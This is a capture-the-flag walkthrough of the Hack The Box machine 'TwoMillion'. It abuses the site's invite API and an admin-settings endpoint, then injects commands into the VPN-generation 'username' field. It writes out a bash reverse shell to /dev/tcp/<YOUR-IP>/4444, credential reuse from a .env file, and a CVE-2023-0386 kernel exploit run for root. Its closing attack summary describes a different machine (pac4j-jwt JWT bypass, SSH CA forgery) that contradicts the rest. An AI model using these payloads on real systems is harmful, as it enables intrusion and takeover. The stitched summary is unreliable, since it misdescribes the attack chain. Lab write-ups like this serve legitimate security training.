

# TwoMillion Writeup


## 1. Reconnaissance

An Nmap scan was performed to identify open ports and running services on the target host.

```bash
nmap -sC -sV -A <MACHINE-IP>

Host is up (0.43s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   585.34 ms 10.10.14.1
2   587.81 ms 10.129.229.66

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr  9 07:32:10 2026 -- 1 IP address (1 host up) scanned in 166.26 seconds
```
Only two ports were exposed:

22/tcp – SSH (OpenSSH 8.9p1)
80/tcp – HTTP (nginx)

This suggests the attack surface is likely the web application hosted on port 80.

Add the ip address to our hosts file

```bash
echo "<MACHINE-IP> 2million.htb" | sudo tee -a /etc/hosts
```

## 2. Enumeration

I tried to register on the website but we need an invite code for it.
I tried to find subdomains but couldn't find any subdomain and moved to Directory Fuzzing

### 2.1 Directory Fuzzing

Perform a directory fuzzing scan using feroxbuster to identify potential endpoints that may expose hidden functionality.

```bash
feroxbuster -u http://2million.htb

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://2million.htb/
 🚩  In-Scope Url          │ 2million.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        7l       11w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
302      GET        0l        0w        0c http://2million.htb/logout => http://2million.htb/
200      GET       27l      201w    15384c http://2million.htb/images/favicon.png
405      GET        0l        0w        0c http://2million.htb/api/v1/user/login
200      GET        1l        8w      637c http://2million.htb/js/inviteapi.min.js
405      GET        0l        0w        0c http://2million.htb/api/v1/user/register
200      GET       94l      293w     4527c http://2million.htb/register
401      GET        0l        0w        0c http://2million.htb/api
200      GET       80l      232w     3704c http://2million.htb/login
200      GET       96l      285w     3859c http://2million.htb/invite
200      GET      245l      317w    28522c http://2million.htb/images/logofull-tr-web.png
200      GET      260l      328w    29158c http://2million.htb/images/logo-transparent.png
302      GET        0l        0w        0c http://2million.htb/home => http://2million.htb/
200      GET       46l      152w     1674c http://2million.htb/404
200      GET        5l     1881w   145660c http://2million.htb/js/htb-frontend.min.js
200      GET       13l     2458w   224695c http://2million.htb/css/htb-frontend.css
200      GET        8l     3162w   254388c http://2million.htb/js/htb-frontpage.min.js
200      GET       13l     2209w   199494c http://2million.htb/css/htb-frontpage.css
200      GET     1242l     3326w    64952c http://2million.htb/
```

We found an interesting endpoint `/js/inviteapi.min.js`
The presence of a JavaScript file related to invite functionality suggests that
client-side logic may reveal hidden API endpoints used by the application.

## 3. Initial Foothold

We can view the javascript file in browser tools or curl to view the contents

```bash
curl -X GET http://2million.htb/js/inviteapi.min.js
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{})) 
```

We can see there are `verifyInviteCode` and the code is obfuscated.

The JavaScript file is obfuscated using a common eval-based packing technique.
Using a JavaScript deobfuscation tool reveals the original code.

```python
function verifyInviteCode(code) {
    var formData = { "code": code };

    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}
```

We found two api endpoints and we can send POST requests to those endpoints

```bash
curl -X POST http://2million.htb/api/v1/invite/how/to/generate
{"0":200,"success":1,"data":{"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr","enctype":"ROT13"},"hint":"Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."}  
```

We have ROT-13 encypted data, use cyberchef to decrypt or via command

```bash
echo "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

Another api endpoint is revealed here and the decoded text suggests to make a POST request to that specific endpoint.

```bash
curl -X POST http://2million.htb/api/v1/invite/generate  | jq     
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "VUtMWEMtNk5TTjAtVDkxNU4tVVY4WUE=",
    "format": "encoded"
  }
}                                                 
```

This successfully generated a code which is a base64 encoded string, Let's decode it 

```bash
echo "VUtMWEMtNk5TTjAtVDkxNU4tVVY4WUE=" | base64 -d
UKLXC-6NSN0-T915N-UV8YA                                                                               
```
Use the above code to register an account at `invite` endpoint.

We succesfully vreated an account. After logging in we are redirected to `home` page.

The websites features only few pages and `access` is an interesting page, because it lets user generate and download vpn to access the HTB infrastructure.



Let's start burp suite and see what `connection pack` does

```bash
GET /api/v1/user/vpn/generate HTTP/1.1
Host: 2million.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://2million.htb/home/access
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=sbbcaud0o5sch6ftsd80dgempn
Connection: keep-alive
```

Upon clicking the button, the request was sent to /api/v1/user/vpn/generate

We now have an API endpoint, so I began enumerating it further. So I tried removing /vpn/generate to find if i can get users information but it returned status code 301. Now I removed `user` and trieed api/v1

```bash
curl -sV http://2million.htb/api/v1

Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.229.66
*   Trying 10.129.229.66:80...
* Established connection to 2million.htb (10.129.229.66 port 80) from 10.10.14.14 port 44258 
* using HTTP/1.x
> GET /api/v1 HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.19.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 401 Unauthorized
< Server: nginx
< Date: Sat, 25 Apr 2026 13:30:23 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Set-Cookie: PHPSESSID=2e05is50dcgunkm9ii0c1bcut8; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< 
* Connection #0 to host 2million.htb:80 left intact
```

The API endpoint `/api/v1` returned a 401 Unauthorized response when accessed
without authentication. However, including the PHP session cookie allowed the
request to succeed.

This revealed a list of available API routes, including several administrative
endpoints that should normally be restricted.

```bash
curl -s http://2million.htb/api/v1 --cookie "PHPSESSID=sbbcaud0o5sch6ftsd80dgempn" | jq
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

The request was successful and now we have a bunch of endpoints along with the type of request.

Key findings:

We discovered several administrative endpoints:

1. `/api/v1/admin/auth` -> Checks whether the current user is an administrator.
2. `/api/v1/admin/settings/update` -> Update existing user settings.
3. `/api/v1/admin/vpn/generate` -> Generate VPN configuration for a specific user.

A request to /api/v1/admin/auth returned `false:0` which is expected. Let's move to the next endpoint.

```bash
 curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=sbbcaud0o5sch6ftsd80dgempn" | jq

{
  "status": "danger",
  "message": "Invalid content type."
}
```

This returned invalid content-type instead of unauthorized. It is common that api endpoints use josn acontent type.

```bash
 curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=sbbcaud0o5sch6ftsd80dgempn" --header "Content-Type: application/json" | jq
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

This time it returned a message indicating email parameter is missing.

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=9cano93mu11k17ah36kldj1uco" --header "Content-Type: application/json" -d '{ "email" : "john@email.com"}' | jq
{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```

The API expects the `is_admin` parameter to be either `0` or `1`.

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=9cano93mu11k17ah36kldj1uco" --header "Content-Type: application/json" -d '{ "email" : "john@email.com", "is_admin" : true}' | jq
{
  "status": "danger",
  "message": "Variable is_admin needs to be either 0 or 1."
}
```

is_admin parameter accepts only 0 or 1.

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=9cano93mu11k17ah36kldj1uco" --header "Content-Type: application/json" -d '{ "email" : "john@email.com", "is_admin" : 0}' | jq   
{
  "id": 13,
  "username": "john",
  "is_admin": 1
}
```

This succesfully updated `john` settings.
Verify it

```bash
curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=9cano93mu11k17ah36kldj1uco" | jq
{
  "message": true
}
```

There is one last feature which equires admin privileges. 

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=9cano93mu11k17ah36kldj1uco" --header "Content-TYpe: application/json" | jq 
{
  "status": "danger",
  "message": "Missing parameter: username"
}
```

So this request needs a username.

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=9cano93mu11k17ah36kldj1uco" --header "Content-Type: application/json" --data '{"username": "john"}'     
client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
verb 3
data-ciphers-fallback AES-128-CBC
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
tls-cipher "DEFAULT:@SECLEVEL=0"
auth SHA256
key-direction 1
<ca>
-----BEGIN CERTIFICATE-----
MIIGADCCA+igAwIBAgIUQxzHkNyCAfHzUuoJgKZwCwVNjgIwDQYJKoZIhvcNAQEL
BQAwgYgxCzAJBgNVBAYTAlVLMQ8wDQYDVQQIDAZMb25kb24xDzANBgNVBAcMBkxv
bmRvbjETMBEGA1UECgwKSGFja1RoZUJveDEMMAoGA1UECwwDVlBOMREwDwYDVQQD
<SNIP>
```

This is a high value threat vector to gain a shell. If the VPN configuration is generated using PHP functions such as `exec` or `system`
without proper sanitization, the `username` parameter may allow command injection.

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=9cano93mu11k17ah36kldj1uco" --header "Content-Type: application/json" --data '{"username": "john;whoami;"}'
www-data
```
## 4. Exploit

We now have Remote Code execution.

Start a listener to catch the reverse shell.

```bash
pwncat-cs -lp 4444
```

Inject a reverse shell payload into username field.

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
--cookie "PHPSESSID=9cano93mu11k17ah36kldj1uco" \
--header "Content-Type: application/json" \
--data "{\"username\":\"john;bash -c 'bash -i >& /dev/tcp/<YOUR-IP>/4444 0>&1'\"}"
```

We successfully got a callback on our listener.

```bash
pwncat-cs -lp 4444  
[16:31:32] Welcome to pwncat 🐈!                                                         __main__.py:164
[16:34:24] received connection from 10.129.229.66:45404                                       bind.py:84
[16:34:34] 10.129.229.66:45404: registered new host w/ db                                 manager.py:957
(remote) www-data@2million:/var/www/html$ whoami
www-data
(remote) www-data@2million:/var/www/html$ 
```

We now have a shell as `www-data`. Enumerating the local directory revealed env variables can be read by www-data.

```bash
(remote) www-data@2million:/var/www/html$ ls -la
total 56
drwxr-xr-x 10 root root 4096 Apr 25 15:20 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Apr 25 15:20 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
```

The `.env` file reveals hardcoded database credentials.

```bash
 www-data@2million:/var/www/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Now i wanted to check for a password reuse but before that I have to check if we can get a ssh for admin user

```bash
 www-data@2million:/var/www/html$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash
```

This confirmed that we can login as admin via SSH

```bash
ssh admin@2million.htb
The authenticity of host '2million.htb (10.129.229.66)' can't be established.
ED25519 key fingerprint is: SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY
This key is not known by any other names.
<SNIP>
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
You have mail.
Last login: Sat Apr 25 15:24:50 2026 from 10.129.229.66
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
admin@2million:~$ whoami
admin
admin@2million:~
```

We have got our user flag

```bash
admin@2million:~$ cat user.txt 
9143........f129a
```

## 5. Privilege Escalation

Standard enumeration showed that the user cannot run any sudo commands and belongs only to standard groups.

While enumerating I oticed that while logging via ssh, we have an unusal message shown 

```text
The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
Last login: Sat Apr 25 15:24:50 2026 from 10.129.229.66
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```

I started enumeration for mails

```bash
find / -type d -name "mail" 2>/dev/null
/snap/core20/1891/var/mail
/var/mail
/usr/lib/python3/dist-packages/twisted/mail
```

Enumerating /var/mail revealed a file named `admin`. 

```bash
cat admin 
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

The email suggests the system might be vulnerable to an OverlayFS/FUSE related kernel vulnerability.

A quick google search for `Overlays fuse CVE` revealed an exploit which is assigned `CVE-2023-0386`.
CVE-2023-0386 allows privilege escalation through overlay filesystem 
FUSE interactions by creating SUID binaries via overlay mount manipulation.
Current kernel 5.15.70 is vulnerable.
This ubuntu webpage contains the affected version [Ubuntu CVE-2023-0386 Advisory](https://ubuntu.com/security/CVE-2023-0386).

```bash
 uname -a
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

The kernel version falls within the vulnerable range for CVE-2023-0386. Search for PoC revealed this [OverlayFS CVE-2023-0386 PoC]
(https://github.com/DataDog/security-labs-pocs/blob/main/proof-of-concept-exploits/overlayfs-cve-2023-0386/poc.c)

Download or copy the script to your attacker machine.

Exploitation steps

1. Install required dependencies for compiling 
2. Compile the script
3. upload to victim and execute it.

On Attacker machine

```bash
apt install libfuse-dev
gcc poc.c -o poc -D_FILE_OFFSET_BITS=64 -static -lfuse -ldl
```

Host the files on a python server

```bash
python3 -m http.server 8000
```

Download the file and execute on the victim shell.

```bash
wget http://<MACHINE-IP>/poc
```

```bash

admin@2million:/tmp$ chmod +x poc
admin@2million:/tmp$ ./poc
Waiting 1 sec...
unshare -r -m sh -c 'mount -t overlay overlay -o lowerdir=/tmp/ovlcap/lower,upperdir=/tmp/ovlcap/upper,workdir=/tmp/ovlcap/work /tmp/ovlcap/merge && ls -la /tmp/ovlcap/merge && touch /tmp/ovlcap/merge/file'
[+] readdir
[+] getattr_callback
/file
total 8
drwxrwxr-x 1 root   root     4096 Apr 25 15:55 .
drwxrwxr-x 6 root   root     4096 Apr 25 15:55 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] open_callback
/file
[+] read_callback
    cnt  : 0
    clen  : 0
    path  : /file
    size  : 0x4000
    offset: 0x0
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601
/tmp/ovlcap/upper/file
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp# whoami
root
root@2million:/tmp# 
```

We found the root flag

```bash
root@2million:/tmp# cat /root/root.txt
74.........56
```

## 6. Attack Summary

```bash
Nmap Scan
│
└── Port Discovery
    │
    ├── 22/tcp   SSH (OpenSSH 9.6)
    └── 8080/tcp Jetty Web Server (pac4j-jwt/6.0.3)
        │
        └── Version Enumeration
            │
            └── pac4j-jwt/6.0.3 → CVE-2026-29000 Authentication Bypass
                │
                └── Exploit CVE-2026-29000
                    │
                    ├── Retrieve RSA public key from JWKS endpoint
                    ├── Craft malicious JWT with admin privileges
                    ├── Encrypt JWT into JWE using server public key
                    └── Access protected API endpoints as admin
                        │
                        └── Dashboard Access
                            │
                            ├── Enumerate users
                            └── Discover deployment credentials
                                │
                                └── Password Spraying against SSH
                                    │
                                    └── svc-deploy account compromise
                                        │
                                        └── SSH Foothold (svc-deploy)
                                            │
                                            ├── Enumerate system files
                                            └── Discover SSH CA private key
                                                (/opt/principal/ssh/ca)
                                                │
                                                └── SSH CA Certificate Forgery
                                                    │
                                                    ├── Generate new SSH key pair
                                                    ├── Sign public key with compromised CA
                                                    └── Set principal = root
                                                        │
                                                        └── SSH Login as root
                                                            │
                                                            └── Root privilege escalation
                                                                └── root.txt
```

## 7. Key Vulnerabilties

| # | Vulnerability | Impact |
|---|---------------|--------|
| 1 | **Invite Code Generation Logic Exposure** | The invite system relied on client-side JavaScript which exposed hidden API endpoints used to generate invite codes, allowing attackers to bypass the registration restriction. |
| 2 | **Improper API Authorization** | The endpoint `/api/v1/admin/settings/update` allowed modification of the `is_admin` parameter without verifying administrative privileges, enabling privilege escalation to administrator. |
| 3 | **Command Injection in VPN Generation** | The `/api/v1/admin/vpn/generate` endpoint failed to sanitize the `username` parameter, allowing arbitrary command execution on the server. |
| 4 | **Sensitive Credentials Stored in `.env`** | Database credentials were stored in a readable `.env` file accessible to the `www-data` user, enabling credential discovery. |
| 5 | **Credential Reuse** | The discovered database credentials were reused for the `admin` system account, allowing SSH access to the host. |
| 6 | **Vulnerable Linux Kernel (CVE-2023-0386)** | The system was running a vulnerable kernel version susceptible to the OverlayFS/FUSE privilege escalation vulnerability. |
| 7 | **Local Privilege Escalation via OverlayFS** | Exploiting CVE-2023-0386 allowed the attacker to create a SUID binary and escalate privileges from `admin` to `root`. |